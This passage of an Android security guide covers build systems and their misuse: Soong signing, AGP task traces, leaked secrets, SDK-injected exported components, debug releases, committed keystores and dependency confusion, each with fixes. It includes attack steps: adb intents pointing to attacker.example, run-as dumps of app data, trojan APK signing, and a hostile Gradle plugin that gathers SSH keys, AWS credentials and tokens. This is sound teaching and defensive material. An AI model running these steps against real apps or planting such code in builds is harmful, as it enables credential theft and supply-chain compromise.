# host — the definitive record of what was built and how
cat out/target/product/<device>/module-info.json | python3 -m json.tool | less
```

> **Mental Model**
> Soong is a *compiler for build descriptions*. `Android.bp` is its source language, the module graph
> is its intermediate representation, mutators are its optimisation passes, and `build.ninja` is its
> object code. Ninja is the linker-and-loader. Once you see it this way, "why does one `cc_library`
> produce sixteen output directories?" answers itself: the same source was compiled sixteen times for
> sixteen different targets, exactly as a cross-compiler would.

### 4.4 Trace 2 — from `certificate: "platform"` to a signed APK on the image

This trace matters because it is how an application ends up sharing the system UID.

1. `packages/apps/Settings/Android.bp` declares `android_app { name: "Settings", certificate: "platform", privileged: true, platform_apis: true, … }`.
2. `build/soong/java/app.go` handles the `android_app` type. It compiles the Java/Kotlin sources, runs
   `aapt2` over the resources, runs R8 if configured, and produces an unsigned APK.
3. The `certificate:` property is resolved to a key pair. The bare string `"platform"` resolves to
   `build/make/target/product/security/platform.pk8` and `platform.x509.pem` — **files that are in the
   public AOSP tree**, unless the product overrides `PRODUCT_DEFAULT_DEV_CERTIFICATE` to point at a
   private directory.
4. `signapk` (`build/make/tools/signapk/`) signs the APK with that key.
5. `privileged: true` causes the module to be installed under
   `out/target/product/<device>/system/priv-app/Settings/` rather than `system/app/`.
6. On the device, `PackageManagerService` reads `/system/priv-app/` and treats its contents as
   privileged, permitting `signature|privileged` permission grants declared in
   `/system/etc/permissions/privapp-permissions-*.xml`.
7. For a **release** build, `sign_target_files_apks.py` re-signs every APK in the target-files ZIP with
   the OEM's real keys before the image is finalised.



> **Warning**
> Every step above is a decision made by a *build file*, not by any code in the app. An OEM that adds
> `certificate: "platform"` to a third-party partner's application — which happens, because it is the
> quickest way to make an integration work — has granted that partner code equivalent to system
> privilege. When you review a device image, enumerate everything signed by the platform key:
> ```bash
> # host — with an extracted system image mounted or unpacked
> for a in $(find system/priv-app system/app -name '*.apk'); do
>   echo "$a $(apksigner verify --print-certs "$a" 2>/dev/null | grep -m1 'SHA-256 digest')"
> done | sort -k2
> ```
> Group by digest. Everything sharing the platform digest is one trust domain.

### 4.5 Trace 3 — from `./gradlew assembleRelease` to `apksigner`

AGP is closed-source in the sense that it ships as a binary, but its behaviour is fully observable.
This trace is what you run on a client's project to see the truth.

**Step 1 — see the task graph.**

```bash
# host — every task that will run, in order, without running them
./gradlew assembleRelease --dry-run

# host — the same, with the reason each task was or was not skipped
./gradlew assembleRelease --info | grep -E "Task :app:|UP-TO-DATE|FROM-CACHE"
```

A release build of a modest application typically runs 60–120 tasks. The ones that matter to you, in
execution order:

| Task | What it does | Where its output lands |
|---|---|---|
| `:app:preReleaseBuild` | Dependency resolution checks | — |
| `:app:processReleaseMainManifest` | **The manifest merger** | `build/intermediates/merged_manifests/release/` |
| `:app:mergeReleaseResources` | Resource overlay across source sets and libraries | `build/intermediates/merged_res/release/` |
| `:app:processReleaseResources` | `aapt2 link` | `resources.arsc`, `R.jar` |
| `:app:generateReleaseBuildConfig` | Emits `BuildConfig.java` | `build/generated/source/buildConfig/release/` |
| `:app:compileReleaseKotlin` | `kotlinc` | `build/tmp/kotlin-classes/release/` |
| `:app:compileReleaseJavaWithJavac` | `javac` | `build/intermediates/javac/release/` |
| `:app:mergeReleaseJniLibFolders` / `:app:externalNativeBuildRelease` | Native sub-build | `build/intermediates/cmake/release/obj/` |
| `:app:minifyReleaseWithR8` | R8: shrink, optimise, obfuscate, dex | `build/intermediates/dex/release/`, `build/outputs/mapping/release/` |
| `:app:shrinkReleaseRes` | Resource shrinker | `build/intermediates/shrunk_processed_res/` |
| `:app:stripReleaseDebugSymbols` | Strips `.so` files | `build/intermediates/stripped_native_libs/` |
| `:app:packageRelease` | ZIP, zipalign, sign | `build/outputs/apk/release/app-release.apk` |
| `:app:bundleRelease` | The AAB path instead | `build/outputs/bundle/release/app-release.aab` |

**Step 2 — see the actual tool invocations.** AGP does not print them by default, but it records them.

```bash
# host — the R8 configuration AGP actually used, including every keep rule from
# every library's consumer-rules.pro. This is far more than what proguard-rules.pro says.
cat app/build/outputs/mapping/release/configuration.txt

# host — what R8 kept, and why
head -50 app/build/outputs/mapping/release/seeds.txt
head -50 app/build/outputs/mapping/release/usage.txt      # what it REMOVED
```

> **Pentester's Note**
> `configuration.txt` is the file that answers "the developer's `proguard-rules.pro` looks reasonable,
> so why is nothing obfuscated?" Every AAR can ship a `proguard.txt` / `consumer-rules.pro` that is
> **merged into the app's keep rules automatically and silently**. One dependency with
> `-keep class ** { *; }` in its consumer rules disables obfuscation for the entire application, and
> nothing in the app's own repository shows it. `configuration.txt` is the merged, final truth. Grep it
> for `-keep class \*\*` and `-dontobfuscate` first.

**Step 3 — see the signing.** The `packageRelease` task calls `apksigner`'s library form. What it used
is recorded in the APK itself:

```bash
# host — schemes, certificates, and digests actually applied
apksigner verify --verbose --print-certs app/build/outputs/apk/release/app-release.apk
```

**Step 4 — see AGP's own fingerprint in the output.** Modern AGP writes metadata into the APK:

```bash
# host
unzip -p app-release.apk META-INF/com/android/build/gradle/app-metadata.properties
# appMetadataVersion=1.1
# androidGradlePluginVersion=8.5.2
# ...
```

That file tells you which AGP built the artefact — useful when you are handed an APK with no
repository and must reason about which build behaviours were defaults at the time.

---

## 5. Security Perspective

### 5.1 How attackers abuse the build system

The build system is attacked in two distinct ways, and conflating them produces muddled reports.

**Attack surface 1 — the artefact.** The attacker is a normal application on the victim's device, or
someone holding the APK. They exploit configuration *decisions* the build recorded: an exported
component the manifest merger injected, a secret in `BuildConfig`, a debuggable release, a missing
network security config. The attacker never touches the build; they consume its output.

**Attack surface 2 — the build itself.** The attacker compromises the process that produces the
artefact: a malicious dependency, a malicious plugin, a poisoned build cache, a compromised CI runner.
The payoff is not one app but the *release channel*, and often the developer's credentials as well.
This is a software-supply-chain attack and it is covered in depth in §5.4.

| Vector | Surface | Typical impact |
|---|---|---|
| Injected exported component from an SDK manifest | Artefact | Intent redirection, unauthenticated IPC entry point |
| Secret in `BuildConfig` / `resources.arsc` / assets | Artefact | Credential compromise on the backend |
| `debuggable="true"` in production | Artefact | Full data-directory read on any device via `run-as` |
| Debug source set leaked into release | Artefact | Trust-all TLS, cleartext permitted, debug endpoints |
| `minifyEnabled false` | Artefact | Hardening gap; faster reversing |
| `mapping.txt` published | Artefact | Obfuscation fully undone |
| Malicious Gradle plugin | Build | Arbitrary code as the CI user; signing-key theft |
| Dependency confusion | Build | Same, plus a trojanised shipped app |
| `buildSrc` / `build-logic` modification | Build | Same, and invisible to most reviewers |
| Poisoned remote build cache | Build | Trojanised task outputs with no source change |
| Compromised `gradle-wrapper.jar` | Build | Code execution on first `./gradlew` |
| Test-key-signed firmware | Build (platform) | Total platform trust compromise |

### 5.2 How developers misuse it

| Misuse | Why they do it | Consequence |
|---|---|---|
| `buildConfigField` for an API key | It is the documented way to vary configuration per environment, and a key *is* configuration | A `static final String` in the DEX, inlined at every use site, findable with `strings` |
| `debuggable = true` on the release build type | Added to debug a production-only crash, never removed | `run-as` and JDWP on every user's device |
| `implementation` where `debugImplementation` was meant | The two lines look alike and both compile | Flipper, Chucker, LeakCanary or a trust-all `TrustManager` in production |
| `-keep class ** { *; }` in `proguard-rules.pro` | R8 broke something and this made it work | Obfuscation and shrinking fully disabled |
| Keystore and passwords committed | CI needed them and it was "a private repo" | Anyone with repo read access can sign as the vendor |
| `signingConfigs.debug` used for release | Left over from a template | The APK is signed with a key every developer on earth has |
| Version ranges (`1.+`, `latest.release`, `-SNAPSHOT`) | Automatic updates | Non-reproducible builds; a maintainer or an attacker changes your code without a commit |
| `allprojects { repositories { mavenCentral(); maven { url = "https://internal…" } } }` with no content filter | It works | Dependency-confusion exposure (see §5.4) |
| `android.enableJetifier=true` retained for years | It silenced a build error once | Unmaintained support-library-era AARs still present |
| Disabling `lint` `abortOnError` | Lint failed the build | Real findings, including `ExportedReceiver` and `TrustAllX509TrustManager`, are silently ignored |
| `usesCleartextTraffic="true"` in `src/main` | Testing against a local HTTP server | Cleartext permitted in production |

### 5.3 Vulnerability classes with full treatment

Each pattern below follows the repository's standard shape: vulnerable code, why it gets written, how
you detect it statically and dynamically, how it is exploited, the fix as code, and an honest severity.

---

#### 5.3.1 Secret material embedded via `buildConfigField`

**Vulnerable code.**

```kotlin
// app/build.gradle.kts
android {
    defaultConfig {
        buildConfigField("String", "STRIPE_SECRET", "\"sk_live_51H9x…\"")
        buildConfigField("String", "S3_SECRET_KEY", "\"wJalrXUtnFEMI/K7MDENG/…\"")
    }
}
```

```kotlin
// app/src/main/java/com/example/Payments.kt
val client = StripeClient(BuildConfig.STRIPE_SECRET)
```

**Why developers write it.** The alternative — proxying every privileged call through their own backend
— requires a backend endpoint, an authentication design, and a sprint. `buildConfigField` requires one
line and works immediately. Many teams also believe, incorrectly, that R8 obfuscation hides string
values.

**Static detection.**

```bash
# host — in the source repository
grep -rn "buildConfigField\|resValue\|manifestPlaceholders" --include="build.gradle*" .

# host — in the shipped APK, no source needed
apktool d -f app-release.apk -o out/
grep -rnE "sk_live_|AKIA[0-9A-Z]{16}|AIza[0-9A-Za-z_-]{35}|ghp_[0-9A-Za-z]{36}" out/smali*/ out/res/
aapt2 dump resources app-release.apk | grep -iE "key|token|secret|password"
strings -n 12 classes.dex | grep -iE "sk_live|AKIA|-----BEGIN"
```

**Dynamic detection.** Read the constants out of the running process, which also catches values that
were assembled at runtime from pieces:

```javascript
// frida — dump every static String field of BuildConfig
// usage: frida -U -f com.example.app -l dump-buildconfig.js
Java.perform(function () {
    var appId = Java.use("android.app.ActivityThread")
        .currentApplication().getPackageName();
    var candidates = [appId + ".BuildConfig"];
    Java.enumerateLoadedClassesSync().forEach(function (c) {
        if (c.endsWith(".BuildConfig")) candidates.push(c);
    });
    candidates.filter(function (v, i, a) { return a.indexOf(v) === i; })
        .forEach(function (name) {
            try {
                var C = Java.use(name);
                console.log("=== " + name);
                C.class.getDeclaredFields().forEach(function (f) {
                    f.setAccessible(true);
                    console.log("  " + f.getName() + " = " + f.get(null));
                });
            } catch (e) { /* not loaded in this process */ }
        });
});
```

**Exploitation.** There is no exploitation step worth describing: the value is a plaintext string in
the file. The work is in *validating impact* — proving the key is accepted by the service and
enumerating what it authorises.

**Secure fix.**

```kotlin
// app/build.gradle.kts — configuration that is genuinely not secret stays here
android {
    defaultConfig {
        buildConfigField("String", "API_BASE", "\"https://api.example.com\"")
        // No credentials. None. Not obfuscated ones either.
    }
}
```

```kotlin
// app/src/main/java/com/example/Payments.kt
// The app never holds a service credential. It holds a short-lived, user-scoped token,
// and the privileged call is made by our own backend on the user's behalf.
suspend fun charge(amountMinor: Long, currency: String): ChargeResult =
    api.createCharge(                       // our backend, authenticated with the user's token
        ChargeRequest(amountMinor, currency)
    )                                        // the backend holds sk_live_ and never discloses it
```

**Honest severity.** It depends entirely on what the key does, and this is where most reports go wrong.

| Key type | Realistic severity | Reasoning |
|---|---|---|
| Stripe `sk_live_`, AWS secret access key, database credential, static server bearer token | **Critical** | Direct, unauthenticated access to backend data or funds |
| Third-party SaaS write key (analytics ingest, feature flags) | **Medium** | Data pollution, sometimes read access to configuration |
| Firebase Web API key, Google Maps API key, OAuth **public** client ID | **Informational** | These are designed to ship. Security comes from server-side restrictions. Report only if the restrictions are absent — which you must *verify*, not assume. |

> **Pentester's Note**
> Verify Firebase and Maps keys rather than rating them blind. For Firebase, the finding is not the key
> — it is an open database. Test the actual security rules against the project the key names. For Maps,
> the finding is an unrestricted key (no SHA-1 + package restriction), which is a *billing* issue, and
> should be reported as such. A report that lists `AIza…` as a critical hardcoded secret tells the
> client you do not know what the key is, and every subsequent finding is read with that in mind.

---

#### 5.3.2 An SDK-injected exported component

**Vulnerable code.** The application's own manifest is clean:

```xml
<!-- app/src/main/AndroidManifest.xml — the developer's entire manifest -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android">
    <application android:name=".App" android:allowBackup="false">
        <activity android:name=".MainActivity" android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
    </application>
</manifest>
```

The dependency's manifest is not:

```xml
<!-- inside com.vendor:engage-sdk:2.7.0 (AAR) — AndroidManifest.xml -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
          package="com.vendor.engage">
    <application>
        <activity android:name="com.vendor.engage.DeepLinkRouterActivity"
                  android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.VIEW"/>
                <category android:name="android.intent.category.DEFAULT"/>
                <category android:name="android.intent.category.BROWSABLE"/>
                <data android:scheme="engage"/>
            </intent-filter>
        </activity>
        <receiver android:name="com.vendor.engage.CommandReceiver"
                  android:exported="true">
            <intent-filter>
                <action android:name="com.vendor.engage.EXECUTE"/>
            </intent-filter>
        </receiver>
    </application>
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"/>
</manifest>
```

**Why developers write it.** They do not write it. That is the point. The SDK vendor wrote it, the
merger applied it, and the application developer has, in the overwhelming majority of cases, never read
the merged manifest.

**Static detection.**

```bash
# host — the true component surface, from the shipped APK
apktool d -f app-release.apk -o out/
grep -nE 'android:exported="true"' out/AndroidManifest.xml

# host — the difference between what the developer wrote and what shipped
grep -oE 'android:name="[^"]+"' app/src/main/AndroidManifest.xml | sort -u > declared.txt
grep -oE 'android:name="[^"]+"' out/AndroidManifest.xml           | sort -u > shipped.txt
comm -13 declared.txt shipped.txt        # <-- everything the libraries added

# host — the provenance of each addition, with Maven coordinates
grep -n "ADDED from" app/build/outputs/logs/manifest-merger-release-report.txt
```

**Dynamic detection and exploitation.** Every injected exported component is reachable from any app on
the device, and from a browser if the intent filter is `BROWSABLE`.

```bash
# adb shell — reach the injected router activity from another app's context
am start -a android.intent.action.VIEW -d "engage://open?url=https://attacker.example/"

# adb shell — send the injected receiver a broadcast
am broadcast -a com.vendor.engage.EXECUTE \
   -n com.example.app/com.vendor.engage.CommandReceiver \
   --es cmd "sync" --es endpoint "https://attacker.example/collect"

# adb shell — enumerate everything reachable, from the device's own view
dumpsys package com.example.app | sed -n '/Activity Resolver Table/,/Permissions:/p'
```

A single HTML page is enough for the browser-reachable case:

```html
<!-- attacker page — any user who taps this launches the injected activity -->
<a href="engage://open?url=https://attacker.example/phish">Continue</a>
```

The classic outcome is **intent redirection**: the injected activity reads a URL or a nested `Intent`
from an extra and hands it to a `WebView` or to `startActivity` without validation, so the attacker's
content is rendered inside the victim app's origin, or an internal, non-exported component is launched
on the attacker's behalf. See [26-Intent](../26-Intent/README.md) and
[43-WebView](../43-WebView/README.md).

**Secure fix.** In order of preference:

```xml
<!-- app/src/main/AndroidManifest.xml — 1. remove what you do not use -->
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
          xmlns:tools="http://schemas.android.com/tools">
    <application>
        <receiver android:name="com.vendor.engage.CommandReceiver"
                  tools:node="remove" />

        <!-- 2. or, if the component is needed internally, de-export it -->
        <activity android:name="com.vendor.engage.DeepLinkRouterActivity"
                  android:exported="false"
                  tools:replace="android:exported"
                  tools:node="merge-only-attributes" />
    </application>

    <!-- 3. strip permissions the product does not need -->
    <uses-permission android:name="android.permission.ACCESS_FINE_LOCATION"
                     tools:node="remove" />
</manifest>
```

```kotlin
// build.gradle.kts — 4. the durable fix: make the merged surface a build-time invariant
val auditMergedManifest by tasks.registering {
    val merged = layout.buildDirectory
        .file("intermediates/merged_manifests/release/AndroidManifest.xml")
    inputs.file(merged)
    doLast {
        val allowed = setOf("com.example.app.MainActivity")   // the reviewed allow-list
        val exported = Regex("""android:name="([^"]+)"[^>]*android:exported="true"""")
            .findAll(merged.get().asFile.readText())
            .map { it.groupValues[1] }.toSet()
        val unexpected = exported - allowed
        check(unexpected.isEmpty()) {
            "Unreviewed exported components in the merged manifest: $unexpected"
        }
    }
}
tasks.named("assembleRelease") { finalizedBy(auditMergedManifest) }
```

**Honest severity.** The injection itself is **informational** — a component being exported is not a
vulnerability. Severity comes entirely from what the component *does* when you reach it:

| Behaviour on reach | Severity |
|---|---|
| Loads an attacker-supplied URL into a `WebView` with JavaScript and a JS bridge | High to Critical |
| Forwards an attacker-supplied `Intent` (`startActivity(getParcelableExtra("intent"))`) | High |
| Writes attacker-controlled data to the app's private storage | Medium to High |
| Triggers a network call to an attacker-supplied host with the user's session | Medium |
| Displays a screen or logs an event and nothing else | Informational |

> **Warning**
> Do not report every exported component as a finding. Automated scanners do this, clients have learned
> to discount it, and it buries your real findings. Reach each one, observe what it does, and report
> only those with demonstrated impact — with the `am` command that proves it.

---

#### 5.3.3 A debug configuration shipped in a release build

**Vulnerable code.**

```kotlin
// app/build.gradle.kts
buildTypes {
    getByName("release") {
        isMinifyEnabled = false
        isDebuggable = true                       // added to chase a production crash
        signingConfig = signingConfigs.getByName("debug")   // "temporary"
    }
}
dependencies {
    implementation("com.facebook.flipper:flipper:0.x")      // should be debugImplementation
    implementation(project(":test-hooks"))                  // ditto
}
```

```kotlin
// app/src/debug/java/com/example/net/TrustAll.kt — correct in debug, fatal if it leaks
object TrustAll : X509TrustManager {
    override fun checkServerTrusted(chain: Array<X509Certificate>, authType: String) {}
    override fun checkClientTrusted(chain: Array<X509Certificate>, authType: String) {}
    override fun getAcceptedIssuers(): Array<X509Certificate> = arrayOf()
}
```

**Why developers write it.** Every line of it is reasonable *somewhere*. `isDebuggable = true` on
release is added during an incident and is genuinely useful for an afternoon. The trust-all manager is
the standard way to intercept your own traffic during development. The mistake is never the code — it
is that no gate exists to stop it reaching production.

**Static detection.**

```bash
# host — from the APK alone
aapt2 dump badging app-release.apk | grep -E "application-debuggable|testOnly"
apksigner verify --print-certs app-release.apk | grep -i "CN=Android Debug"
apktool d -f app-release.apk -o out/ && grep -n "debuggable\|usesCleartextTraffic" out/AndroidManifest.xml
grep -rn "networkSecurityConfig" out/AndroidManifest.xml
unzip -l app-release.apk | grep -iE "flipper|chucker|leakcanary|stetho"

# host — from the repository
grep -rn "isDebuggable\|debuggable true" --include="build.gradle*" .
grep -rn "TrustManager\|HostnameVerifier\|ALLOW_ALL" app/src/main/    # must be empty
```

**Dynamic detection and exploitation.** A debuggable application hands you its private data directory
with no root at all:

```bash
# adb shell — confirm the flag as the device sees it
dumpsys package com.example.app | grep -i "flags="        # look for DEBUGGABLE

# adb shell — read the entire private data directory as the app's UID
run-as com.example.app ls -la /data/data/com.example.app/
run-as com.example.app cat /data/data/com.example.app/shared_prefs/session.xml
run-as com.example.app sh -c 'cd /data/data/com.example.app && tar cf - .' > /sdcard/loot.tar

# host — attach a JDWP debugger and execute arbitrary code inside the app process
adb jdwp
```

**Secure fix.**

```kotlin
// app/build.gradle.kts
buildTypes {
    getByName("release") {
        isMinifyEnabled = true
        isShrinkResources = true
        isDebuggable = false
        signingConfig = signingConfigs.getByName("release")
    }
}
dependencies {
    debugImplementation("com.facebook.flipper:flipper:0.x")   // correct configuration
}
```

```kotlin
// build.gradle.kts — make the mistake impossible rather than merely absent
androidComponents {
    onVariants(selector().withBuildType("release")) { variant ->
        check(!variant.debuggable) { "Release variant must not be debuggable" }
    }
}
```

```xml
<!-- app/src/main/res/xml/network_security_config.xml -->
<network-security-config>
    <base-config cleartextTrafficPermitted="false">
        <trust-anchors>
            <certificates src="system"/>   <!-- user CAs NOT trusted in release -->
        </trust-anchors>
    </base-config>
</network-security-config>
```

Debug-only relaxations belong in `app/src/debug/res/xml/network_security_config.xml`, where the merger
keeps them out of release by construction. See
[44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md).

**Honest severity.** `android:debuggable="true"` on a production release is **High**, and on an app
handling financial or health data it is **Critical**. It is one of the few Android findings that needs
no chained precondition: any user, on any unrooted device, with a USB cable, reads every credential the
app has stored. A debug **signing key** is equally severe for a different reason — the private key is
public, so anyone can publish a signed "update" for sideloading and satisfy any signature check.

---

#### 5.3.4 Signing material committed to the repository

**Vulnerable code.**

```properties
# gradle.properties — committed
RELEASE_STORE_FILE=../keys/release.jks
RELEASE_STORE_PASSWORD=Sup3rSecret!2019
RELEASE_KEY_ALIAS=upload
RELEASE_KEY_PASSWORD=Sup3rSecret!2019
```

```kotlin
// app/build.gradle.kts
signingConfigs {
    create("release") {
        storeFile = file(project.property("RELEASE_STORE_FILE") as String)
        storePassword = project.property("RELEASE_STORE_PASSWORD") as String
        keyAlias = project.property("RELEASE_KEY_ALIAS") as String
        keyPassword = project.property("RELEASE_KEY_PASSWORD") as String
    }
}
```

**Why developers write it.** CI needed to sign, and the fastest path to a green pipeline is to commit
the keystore. Teams reassure themselves that the repository is private — which ignores that every
contractor, every former employee, every CI integration and every code-search tool with repo access can
read it, and that git history is forever.

**Static detection.**

```bash
# host — the current tree
find . \( -name "*.jks" -o -name "*.keystore" -o -name "*.p12" -o -name "*.pk8" \
        -o -name "*.pem" -o -name "google-services.json" -o -name "*.json" \) \
     -not -path "./build/*" -not -path "*/node_modules/*" | head -50

# host — git history, which is where they usually still are after a "fix"
git log --all --diff-filter=A --name-only --pretty=format: \
  | sort -u | grep -iE "\.jks$|\.keystore$|\.p12$|\.pem$|secret|password"

# host — credentials in any properties file, current and historical
git grep -nIE "(PASSWORD|SECRET|TOKEN|API_KEY)\s*=\s*\S" $(git rev-list --all) -- '*.properties' \
  | head -40
```

**Exploitation.** Trivial and complete:

```bash
# host — confirm the keystore opens with the committed password
keytool -list -v -keystore keys/release.jks -storepass 'Sup3rSecret!2019'

# host — sign a modified APK as the vendor
apksigner sign --ks keys/release.jks --ks-pass pass:'Sup3rSecret!2019' \
  --ks-key-alias upload --out trojan-signed.apk trojan-unsigned.apk
```

A holder of the signing key can produce an update the platform accepts, obtain any `signature`-level
permission the vendor's app family declares, and join any `sharedUserId` those apps use.

**Secure fix.**

```kotlin
// app/build.gradle.kts — signing material comes from the environment, never the repository
signingConfigs {
    create("release") {
        val ksPath = System.getenv("ANDROID_KEYSTORE_PATH")
        if (ksPath != null) {
            storeFile = file(ksPath)
            storePassword = System.getenv("ANDROID_KEYSTORE_PASSWORD")
            keyAlias = System.getenv("ANDROID_KEY_ALIAS")
            keyPassword = System.getenv("ANDROID_KEY_PASSWORD")
        }
    }
}
```

```gitignore
# .gitignore
*.jks
*.keystore
*.p12
*.pk8
local.properties
signing.properties
```

The organisational fix is stronger than either: enrol in **Play App Signing** so the key that matters
is held by Google and the developer holds only a resettable upload key; keep even that key in a CI
secret store or an HSM; and rotate any key that was ever committed.rotation does not undo
the exposure for already-published versions — see the rotation warning in §3.14.

**Honest severity.** **Critical** for a self-managed app signing key. **High** for an upload key under
Play App Signing, because Google will reset it on request but an attacker can publish to the store
until you notice.

---

### 5.4 Supply-chain risk, in depth

This is the section that distinguishes a build-system chapter from a Gradle tutorial. Everything here
concerns attack surface 2: compromising the build rather than the artefact.



The diagram's message is that **eight independent channels deliver executable content into a build**,
and only one of them — the first — is what most people mean by "our dependencies". Transitive
dependencies are typically five to twenty times more numerous than declared ones, and nobody chose
them. Plugins and `buildSrc` run *before* anything is compiled, at the point where credentials are
present and no artefact yet exists to inspect.

#### 5.4.1 Dependency confusion

> **Definition**
> **Dependency confusion** (also called a substitution attack) is the exploitation of a build tool's
> repository search order. If a build resolves an artefact coordinate by asking several repositories in
> turn, and an attacker can publish that same coordinate to a repository that is consulted — especially
> a public one — the attacker's artefact may be selected instead of the intended internal one.

The Gradle-specific mechanics matter, because Gradle behaves differently from `npm` and `pip`.

Gradle asks repositories **in declaration order** and takes the first that has the module. So this is
safe-ish and this is not:

```kotlin
// settings.gradle.kts — DANGEROUS: Maven Central is asked for internal coordinates
dependencyResolutionManagement {
    repositories {
        google()
        mavenCentral()                                   // asked first for com.acme:*
        maven { url = uri("https://nexus.acme.internal/repository/maven-releases/") }
    }
}
dependencies {
    implementation("com.acme:payments-core:1.4.0")       // internal artefact
}
```

If nobody has published `com.acme:payments-core` to Maven Central, an attacker can. Because
`mavenCentral()` is declared first, Gradle finds it there and never asks the internal Nexus. Even with
the order reversed, a higher version number published publicly can win under Gradle's
"highest version wins" conflict resolution when some transitive path also requests the module.

**Detection.**

```bash
# host — list every repository the build will consult, in order
grep -rn -A15 "repositories\s*{" settings.gradle* build.gradle* 2>/dev/null

# host — every internal-looking coordinate: does it exist publicly?
grep -rhoE "['\"][a-z0-9.\-]+:[a-zA-Z0-9.\-]+:[^'\"]+['\"]" --include="build.gradle*" \
     --include="*.versions.toml" . | tr -d "'\"" | sort -u > coords.txt
# then check each internal-looking group on the public repositories it should not exist on
```

**The fix, which is exact and worth memorising.** Gradle has a first-class mechanism: repository
**content filtering**. It tells Gradle which coordinates a repository is *allowed* to answer for, so
the public repository is never even asked about internal groups.

```kotlin
// settings.gradle.kts — correct configuration
dependencyResolutionManagement {
    repositoriesMode.set(RepositoriesMode.FAIL_ON_PROJECT_REPOS)  // no per-project overrides
    repositories {
        // The internal repository is the ONLY source for internal groups.
        maven {
            url = uri("https://nexus.acme.internal/repository/maven-releases/")
            content { includeGroupByRegex("com\\.acme(\\..*)?") }
            credentials(PasswordCredentials::class)
        }
        // Public repositories are explicitly forbidden from answering for those groups.
        google() {
            content {
                includeGroupByRegex("com\\.android(\\..*)?")
                includeGroupByRegex("com\\.google(\\..*)?")
                includeGroupByRegex("androidx(\\..*)?")
            }
        }
        mavenCentral {
            content { excludeGroupByRegex("com\\.acme(\\..*)?") }
        }
    }
}
```

> **Pentester's Note**
> In a source-assisted review, `settings.gradle(.kts)` is the file to open **first**, before any Kotlin
> or Java. Three questions answer themselves in thirty seconds: are any non-standard repositories
> declared (and are they HTTPS)? Is there any `content { }` filtering (usually not — that is a finding)?
> Is `repositoriesMode` set to `FAIL_ON_PROJECT_REPOS` (usually not — meaning any module can add a
> repository quietly)? A build with unfiltered public repositories and internal coordinates is a
> reportable supply-chain exposure even with no evidence of exploitation, and it is one of the few
> findings that is cheap to prove and cheap to fix.

#### 5.4.2 Malicious Gradle plugins

A plugin is applied at configuration time and runs immediately:

```kotlin
// build.gradle.kts — this single line is arbitrary code execution
plugins {
    id("com.example.helpful-metrics") version "1.0.3"
}
```

Gradle resolves the plugin marker artefact from the Gradle Plugin Portal (or another declared
repository), downloads a JAR, and calls its `apply()` method. That method can do anything the JVM
process can do.

```kotlin
// Inside a hostile plugin — what "apply" is capable of
class MetricsPlugin : Plugin<Project> {
    override fun apply(project: Project) {
        // Runs during ./gradlew tasks, ./gradlew --dry-run, and IDE project import.
        val loot = buildString {
            listOf(
                "${System.getProperty("user.home")}/.gradle/gradle.properties",
                "${System.getProperty("user.home")}/.ssh/id_rsa",
                "${System.getProperty("user.home")}/.aws/credentials",
                "${System.getProperty("user.home")}/.android/debug.keystore"
            ).forEach { p -> runCatching { append(java.io.File(p).readText()) } }
            append(System.getenv().filterKeys {
                it.contains("TOKEN") || it.contains("KEY") || it.contains("PASSWORD")
            })
        }
        // Exfiltration, or — far worse — a silent modification of the app's own sources
        // or of the R8 keep rules, so the shipped APK is trojanised and the repo is clean.
    }
}
```

The second possibility in that comment is the one to internalise. Exfiltration is noisy and detectable.
A plugin that adds one task dependency which rewrites a class file *between compilation and dexing*
produces a trojanised APK from a clean repository, and a reviewer reading the source will find nothing.
Only a diff of the built artefact against an independently produced one — reproducible builds, §3.20 —
detects it.

**Controls, in order of effectiveness:**

| Control | How | Strength |
|---|---|---|
| Dependency verification | `gradle/verification-metadata.xml` with checksums and PGP signatures for every artefact, including plugins | Strong. Prevents silent substitution outright. |
| Pin the plugin repository and filter content | `pluginManagement { repositories { … content { … } } }` | Strong against confusion |
| Pin exact versions everywhere; ban `+`, `latest.release`, `-SNAPSHOT` | Version catalog with exact versions | Strong |
| Review `buildSrc/` and `build-logic/` as production code | Code review policy | Strong, if actually done |
| Build in an isolated container with no credentials mounted, then sign in a separate step | CI architecture | Strongest single control |
| Vendor dependencies into an internal repository with an ingest review | Artifactory/Nexus policy | Strong at organisational scale |
| Reproducible builds plus independent rebuild | §3.20 | The only control that detects a trojanised artefact after the fact |

```bash
# host — generate the dependency verification metadata for an existing project
./gradlew --write-verification-metadata sha256,pgp help

# host — thereafter, any artefact whose checksum changes fails the build
./gradlew assembleRelease
```

> **Warning**
> `--write-verification-metadata` records the checksums of whatever you resolve **at that moment**. If
> the project was already compromised, you have just blessed the compromise. Generate verification
> metadata from a known-good state, review the resulting file in the pull request like any other code,
> and treat every subsequent change to it as a security-relevant diff.

#### 5.4.3 `buildSrc` and `build-logic`

> **Definition**
